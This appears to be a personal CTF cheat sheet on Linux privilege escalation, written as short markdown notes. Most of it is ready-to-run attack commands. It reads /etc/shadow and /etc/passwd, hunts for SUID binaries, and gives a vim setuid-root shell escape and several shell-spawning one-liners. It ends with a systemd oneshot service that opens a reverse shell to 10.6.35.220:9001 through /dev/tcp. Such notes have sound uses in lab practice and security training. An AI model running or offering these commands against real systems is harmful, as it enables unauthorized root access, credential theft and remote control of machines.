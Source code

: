 # user enum
`whoami`
`id`
`sudo -l`
`cat /etc/passwd | cut -d : -f 1`
`cat /etc/shadow`
`cat /etc/group`
`history`

### first steps
#### locate bins with root privileges
```bash
find / -perm -u=s -type f 2>/dev/null
```
Then look up shit on [[sites#GTFObins]]

##### common CTF binaries
###### vim
```bash
vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")’
```
Going to want to [[stabilize the shell]] with some technique

**Some examples:**

```bash 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
#perl
perl -e 'exec "bin/sh";' 

#bash
/bin/sh -i

#ruby
ruby: exec "bin/sh"

#Lua
lua: os.execute('/bin/sh')

#AWK
awk 'BEGIN {system("/bin/sh")}'

#Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

#Find
Exec find . -exec /bin/sh \; -quit
```

 CTRL + Z
```bash
stty raw -echo; fg
export TERM=xterm-256color
```

##### common CTF avenues
###### oneshot services
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/10.6.35.220/9001 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
